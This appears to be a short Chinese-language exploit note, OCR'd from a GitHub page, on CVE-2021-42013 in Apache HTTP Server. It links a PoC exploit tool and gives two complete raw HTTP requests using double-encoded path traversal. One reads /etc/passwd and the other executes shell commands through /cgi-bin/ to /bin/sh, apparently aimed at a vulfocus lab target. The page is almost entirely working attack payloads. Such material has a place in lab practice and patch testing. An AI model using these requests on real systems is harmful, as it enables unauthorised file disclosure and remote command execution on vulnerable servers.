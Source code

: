 ![image](img/httpd-2.png)

**CVE-2021-42013**

* 漏洞利用工具
* https://github.com/asaotomo/CVE-2021-42013-Apache-RCE-Poc-Exp

```
GET /icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd HTTP/1.1
Host: vuglfocus.fofa.so:55493
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: ZMSESSID=fcnisfo6rj1snid6e5r27kj1n0; zmSkin=classic
Connection: close
```

```
GET /cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh HTTP/1.1
Host: vuglfocus.fofa.so:55493
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: ZMSESSID=fcnisfo6rj1snid6e5r27kj1n0; zmSkin=classic
Connection: close
Content-Length: 57

echo Content-Type: text/plain; echo;ls /
```
